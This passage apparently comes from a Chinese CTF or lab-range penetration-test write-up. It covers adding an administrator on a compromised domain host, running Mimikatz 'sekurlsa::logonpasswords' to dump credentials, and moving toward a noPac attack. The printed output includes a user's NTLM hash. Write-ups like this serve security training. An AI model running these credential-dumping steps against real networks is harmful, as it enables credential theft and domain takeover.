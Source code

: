 ### 添加用户

在域成员二拿到权限后，添加管理员用户

[![](assets/1705989181-b6b97410e2715d2f6b0066ec71a5f850.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122170156-e5049dc0-b904-1.png)

### 密码抓取

RDP 登录后上传`Mimikatz`，抓取密码

```plain
privilege::debug
sekurlsa::logonpasswords
```

发现

```plain
Authentication Id : 0 ; 744772 (00000000:000b5d44)
Session           : RemoteInteractive from 2
User Name         : zhanghui
Domain            : XIAORANG
Logon Server      : XIAORANG-DC
Logon Time        : 2024/1/22 11:27:21
SID               : S-1-5-21-3598443049-773813974-2432140268-1133
    msv :
     [00000003] Primary
     * Username : zhanghui
     * Domain   : XIAORANG
     * NTLM     : 1232126b24cdf8c9bd2f788a9d7c7ed1
```

得到一个域内用户`zhanghui`

### nopac 攻击

题目描述中提到了`noPac`，搜索发现这篇文章[https://xz.aliyun.com/t/10694](https://xz.aliyun.com/t/10694)

漏洞原理大致如下
